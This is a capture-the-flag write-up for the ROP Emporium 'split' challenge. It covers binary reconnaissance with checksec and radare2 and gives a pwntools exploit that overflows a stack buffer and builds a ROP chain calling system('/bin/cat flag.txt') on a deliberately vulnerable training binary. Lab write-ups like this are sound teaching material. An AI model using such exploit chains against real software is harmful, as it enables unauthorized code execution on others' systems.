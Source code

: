 1. `file split`

```bash
$ file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, 
BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```

2. gdb-peda, checksec

```bash
$ gdb-peda split
Reading symbols from split...
(No debugging symbols found in split)
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$
```

3. `r2 split`, `aa`, `afl`, I notice the special function **pwnme**, **usefulFunction**. 

```bash
[0x00400742]> afl
0x004005b0    1 42           entry0
0x004005f0    4 42   -> 37   sym.deregister_tm_clones
0x00400620    4 58   -> 55   sym.register_tm_clones
0x00400660    3 34   -> 29   sym.__do_global_dtors_aux
0x00400690    1 7            entry.init0
0x004006e8    1 90           sym.pwnme      ====> this one
0x00400580    1 6            sym.imp.memset
0x00400550    1 6            sym.imp.puts
0x00400570    1 6            sym.imp.printf
0x00400590    1 6            sym.imp.read
0x00400742    1 17           sym.usefulFunction     ====> this one
0x00400560    1 6            sym.imp.system
0x004007d0    1 2            sym.__libc_csu_fini
0x004007d4    1 9            sym._fini
0x00400760    4 101          sym.__libc_csu_init
0x004005e0    1 2            sym._dl_relocate_static_pie
0x00400697    1 81           main             ====> this one
0x004005a0    1 6            sym.imp.setvbuf
0x00400528    3 23           sym._init
```

4. I choose to see the main function first. It seems do nothing but print some strings.

![Image](https://i.imgur.com/6wijIYI.png)

4. go to see another function **pwnme**. we have a input which store at **var_20h(rbp-0x20)**. 

![Image](https://i.imgur.com/nvN8Qsf.png)

5. and the usefulfunction is below.

![Image](https://i.imgur.com/NmfH83V.png)

6. we use `iz` to find an `cat / flag.txt`

```bash
[0x00400742]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt ===> this one
```

7. then we can write our expolit code.
    we need to padding to the return address, it is 0x20 + 0x8(rbp), then the address of `pop rdi ; ret`, then address of `/bin/cat flag.txt`, and `sym.imp.system`
```
from pwn import *

r = process('./split')
#r = remote('120.114.62.211', 6126)

padding = b'A'*40
pop_rdi = 0x4007c3
cat_flag = 0x601060
syscall = 0x400560

# payload = padding
# payload += p64(pop_rdi)
# payload += p64(cat_flag)
# payload += p64(syscall)

r.sendline(padding + p64(pop_rdi) + p64(cat_flag) + p64(syscall))  #if 64 bit ,or 32bit use p32

r.interactive()
```

8. then we can run the code and get the flag.

```bash
$ python3 exploit_split.py
[+] Starting local process './split': pid 155
[*] Switching to interactive mode
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
```